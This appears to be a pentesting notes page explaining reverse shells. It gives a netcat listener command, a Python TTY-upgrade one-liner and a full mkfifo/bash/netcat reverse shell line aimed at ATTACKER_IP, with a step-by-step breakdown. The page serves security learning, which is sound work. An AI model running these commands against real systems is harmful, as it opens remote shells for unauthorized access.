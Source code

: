 ```yaml
---
description: >-
  Reffered as "connect back shell" is one of the most popular techniques for
  gaining access to a system in cyberattacks.
---
```


# Reverse Shell

To setup a reverse shell, we need to setup first a `Netcat Listener` on the attackers machine

```sh
nc -lvnp <port>
```

* -l means to way for connection
* -v enable verbose mode
* -n prevents connections from using DNS for lookup
* -p idicates the port that will be used to wait connection

### Upgrade a shell to tty

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### To gain reverse shell access

{% code overflow="wrap" %}
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
{% endcode %}

* `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
* `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
* `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
* `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
* `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
* `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.



{% embed url="https://www.hackercoolmagazine.com/wordpress-reverse-shelling-multiple-methods/" %}
